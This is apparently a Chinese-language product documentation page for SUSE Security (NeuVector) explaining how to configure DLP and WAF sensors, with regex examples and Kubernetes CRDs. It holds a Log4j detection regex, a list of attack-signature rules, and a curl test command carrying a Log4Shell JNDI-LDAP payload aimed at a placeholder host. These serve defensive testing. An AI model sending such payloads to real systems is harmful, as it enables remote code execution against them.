


DLP 和 WAF 传感器
数据丢失防护 (DLP) 和 Web 应用防火墙 (WAF)
DLP 和 WAF 使用 SUSE® Security 的深度包检测 (DPI) 来检查连接的网络负载是否存在敏感数据违规。SUSE® Security 使用基于正则表达式 (regex) 的引擎来执行数据包过滤功能。在对容器流量应用传感器时应格外小心，因为过滤功能会增加额外的系统开销，并可能影响主机的性能。
DLP 和 WAF 的过滤方式根据应用的组别不同而有所不同。一般来说，WAF 过滤适用于入站和出站连接，但内部流量仅适用于入站过滤。DLP 过滤适用于来自“安全域”的入站和出站连接，但不适用于安全域内的任何内部连接。请参见下面的详细描述。
配置 DLP 或 WAF 是一个两步过程：
-
定义并测试传感器，即用于匹配头部、URL 或整个数据包的一组正则表达式。
-
将所需的传感器应用于策略 → 组屏幕中的一个组。
WAF 传感器
WAF 传感器代表对来自/到 pod/容器的网络流量进行检查。这些传感器可以应用于任何适用的组，甚至是自定义组（例如名称空间组）。组内所有容器的入站流量将被检查以检测 WAF 规则。此外，集群外的任何出站（离开）连接也将被检查。
这意味着，尽管此功能被称为 WAF，但它对任何网络流量都有效且适用，而不仅仅是 Web 应用流量，因此提供的保护比简单的 WAF 更广泛。例如，可以对外部 API 服务的出站连接实施 API 安全，仅允许 GET 请求并阻止 POST 请求。
还要注意，尽管与 DLP 类似，但检查是针对组内每个 pod/容器的入站流量，而 DLP 仅对组的入站和出站流量（即安全边界）进行检查，而不检查组内的内部流量（例如，不在组的容器之间进行东西向流量检查）。

DLP 传感器
DLP 传感器是用于检查流量的模式。内置传感器，如信用卡和美国社会安全号码，具有预定义的正则表达式。您可以通过定义要在该传感器中使用的正则表达式模式来添加自定义传感器。请注意，虽然与WAF相似，但DLP仅对来自组的进出流量进行检查（即安全边界），而不对组内的内部流量进行检查（例如，不在组的容器之间进行东西向流量检查）。WAF检查仅适用于组内每个pod/容器的入站流量。

配置 DLP 和 WAF 传感器
DLP 和 WAF 传感器的配置是相似的。创建传感器名称和任何注释，然后选择传感器以添加或编辑该传感器的规则。关键字段包括：
-
有/没有。确定匹配是否需要找到模式（有）以采取行动（例如拒绝），或者仅在模式不存在（没有）时采取行动。建议将"没有"操作符与使用"有"操作符的模式结合在规则中，因为单个带有"没有"操作符的模式将无效。
-
模式。这是用于确定匹配的正则表达式。您可以针对示例数据测试您的正则表达式，以确保正确的有/没有结果。
-
上下文。查找模式匹配的位置。选择数据包以对整个网络连接进行最广泛的检查，或将检查范围缩小到仅限于 URL、头部或正文。

每个 DLP/WAF 规则支持多个模式（每个规则最多允许 16 个模式）。多个模式以及设置规则上下文也可以帮助减少误报。
具有/不具有模式的 DLP 规则示例： 具有：
\b3[47]\d{2}([ -]?)(?!(\d)\2{5}|123456|234567|345678)\d{6}\1(?!(\d)\3{4}|12345|56789)\d{5}\b这会导致 "istio_agent_go_gc_duration_seconds_sum 22.378386247999998" 的误报匹配：
docker exec -ti httpclient sh
/ # curl -d "{\"context\": \"istio_agent_go_gc_duration_seconds_sum 22.378386247999998\"}" 172.17.0.5:8080/
Hello, world!添加没有模式可以消除误报：
istio\_(\w){5}传感器必须应用于一个组才能生效。
配置联邦 DLP 和 WAF 传感器
这是配置联邦 DLP 或 WAF 传感器的一般过程：
-
定义并测试联邦 DLP/WAF 传感器，这是一组用于匹配头部、URL 或整个数据包的正则表达式，位于 主集群 → 联邦策略 → DLP 传感器或 WAF 传感器 标签中。
-
将所需的传感器应用于 联邦策略 → 组 标签中的自定义联邦组。
-
检查联邦 DLP/WAF 传感器是否与托管集群同步并按预期工作。


将DLP/WAF传感器应用于容器组
要激活DLP或WAF传感器，请转到策略→组以选择所需的组。为该组启用DLP/WAF并添加传感器。
建议将 DLP 传感器应用于由组定义的安全区域的边界，以最小化 DLP 检查的影响。如有需要，定义一个表示此类安全区域的自定义组。 例如，如果选择的组是保留组’containers'，并且将DLP传感器添加到该组，则仅会检查集群内外的流量，而不是所有容器之间的流量。或者，如果它是定义为 '名称空间=demo' 的自定义组，则仅会检查名称空间 demo 内外的流量，而不是名称空间内任何容器之间的流量。
建议仅将WAF传感器应用于预期有传入（例如，入口）连接的组，除非传感器适用于特定的内部应用程序（预期东西向流量）。

发现、监控、保护模式下的DLP/WAF操作
在将传感器添加到组时，DLP/WAF操作可以设置为警报或拒绝，如果匹配则具有以下行为：
-
发现模式。无论设置为警报/拒绝，操作始终为警报。
-
监控模式。无论设置为警报/拒绝，操作始终为警报。
-
保护模式。如果设置为警报，则操作为警报；如果设置为拒绝，则操作为阻断。
Log4j检测WAF模式
用于检测Log4j尝试利用的WAF类规则如下。请注意，这仅应应用于预期有入站Web连接的组。
\$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*还请注意，攻击者可能会通过此类规则绕过检测。
测试Log4j WAF检测
在一次尝试利用中，攻击者将构造初始的jndi:插入并将其包含在User-Agent HTTP头中：
User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}使用curl向服务器（容器）POST数据可以帮助测试WAF规则：
curl -X POST -k -H "X-Auth-Token: $_TOKEN_" -H "Content-Type: application/json" -H "User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" -d '$SOME_DATA' "http://$SOME_IP_:$PORT"


使用导入/导出或CRD管理WAF规则
可以从WAF界面导入或导出WAF规则。这对于能够将规则传播到其他集群、进行备份或准备将其作为CRD应用是有用的。
为了创建WAF传感器或使用CRD将WAF传感器应用于组，请确保创建适当的NVWafSecurityRule集群角色绑定。
示例WAF传感器CRD
点击这里查看详细信息
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
kind: NvWafSecurityRule
metadata:
name: sensor.execution
spec:
sensor:
comment: arbitrary command execution attempt
name: sensor.execution
rules:
- name: Alchemy
patterns:
- context: url
key: pattern
op: regex
value: \/NUL\/.*\.\.\/\.\.\/
- name: Log4j
patterns:
- context: header
key: pattern
op: regex
value: \$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
- name: formmail
patterns:
- context: url
key: pattern
op: regex
value: \/formmail
- context: packet
key: pattern
op: regex
value: \x0a
- name: CCBill
patterns:
- context: url
key: pattern
op: regex
value: \/whereami\.cgi?.*g=
- name: DotNetNuke
patterns:
- context: url
key: pattern
op: regex
value: \/Install\/InstallWizard.aspx.*executeinstall
- name: HNAP
patterns:
- context: url
key: pattern
op: regex
value: \/tmUnblock.cgi
- context: header
key: pattern
op: regex
value: 'Authorization: Basic\s*YWRtaW46'
- name: Magento
patterns:
- context: url
key: pattern
op: regex
value: \/Adminhtml_.*forwarded=
- name: b2
patterns:
- context: url
key: pattern
op: regex
value: \/b2\/b2-include\/.*b2inc.*http\x3a\/\/
- name: bat
patterns:
- context: url
key: pattern
op: regex
value: x2ebat\x22.*?\x26
- name: eshop.pl
patterns:
- context: url
key: pattern
op: regex
value: \/eshop\.pl?.*seite=\x3b
- name: whois_raw.cgi
patterns:
- context: url
key: pattern
op: regex
value: \/whois_raw\.cgi?
- context: packet
key: pattern
op: regex
value: \x0a
kind: List
metadata: null示例CRD，将WAF传感器应用于组
点击这里查看详细信息
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
kind: NvSecurityRule
metadata:
name: demo-group
namespace: demo
spec:
egress: []
file: []
ingress: []
process: []
process_profile:
baseline: default
target:
policymode: N/A
selector:
comment: ""
criteria:
- key: domain
op: =
value: demo
- key: service
op: =
value: nginx-pod.demo
- key: service
op: =
value: node-pod.demo
name: demo-group
original_name: ""
waf:
settings:
- action: deny
name: sensor.cross
- action: deny
name: sensor.execution
- action: deny
name: sensor.injection
- action: deny
name: sensor.traversal
- action: deny
name: wafsensor-1
status: true
kind: List
metadata: null有关使用CRD的更多详细信息，请参见CRD部分。